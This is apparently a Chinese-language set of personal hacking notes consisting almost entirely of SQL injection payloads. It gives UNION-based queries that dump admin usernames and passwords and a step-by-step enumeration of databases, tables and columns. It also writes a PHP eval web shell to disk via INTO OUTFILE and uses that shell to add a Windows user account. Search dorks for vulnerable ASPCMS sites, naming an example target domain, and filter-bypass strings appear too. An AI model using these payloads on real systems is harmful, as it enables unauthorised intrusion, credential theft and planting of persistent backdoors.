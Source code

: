 # test

192.168.1.2:8080/?id=1 and 1=2 union select 1,concat(username,',',password) from admin

?id=' union select ",",'<?php @eval($_REQUEST[test]);?>' into outfile 'D:\\\phpStudy\\\PHPTutorial\\\WWW\\\shop\\\502g58de\\\test.php'%23

/test.php?test=system('net user myusername mypwd /add');

# test2

百度关键词: {有限公司\学校\医院\xxx}--Powered by ASPCMS V2.0

在找到的链接后边添加index.asp  /admin_aspcms/login.jsp  /admin/login.jsp 

​	如: http://bzschz.org/  → http://bzschz.org/index.asp

​	如:  http://bzschz.org/index.html  → http://bzschz.org/index.asp

​	?id=0 or 1=1(?id=1%20and%201=1) 可以判断是否有注入漏洞

?id=0%20unmasterion%20semasterlect..

# test3

- ?id=1 order by 1,2  	--通过第几列排序 **可拿到查询了几个字段**
- ?id=1 and 1=2 union select 1,2
  - 让原sql报错,执行自己的sql
- 例子:
  - ?id=1 and 1=2 union select 1,datbase() 
  - 猜询数据库版本: and 1=2 union select 1, version()
  - 猜询数据库: and 1=2 union select 1, (select group concat(schema name)from information schema schemata)
  - 猜询表名: and 1=2 union select 1, table_name from information_schema.tables where table_schema=database()
  - 查询字段名: and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin'
  - 查询字段内容: and 1=2 union select 1, concat(username, '', password) from admin

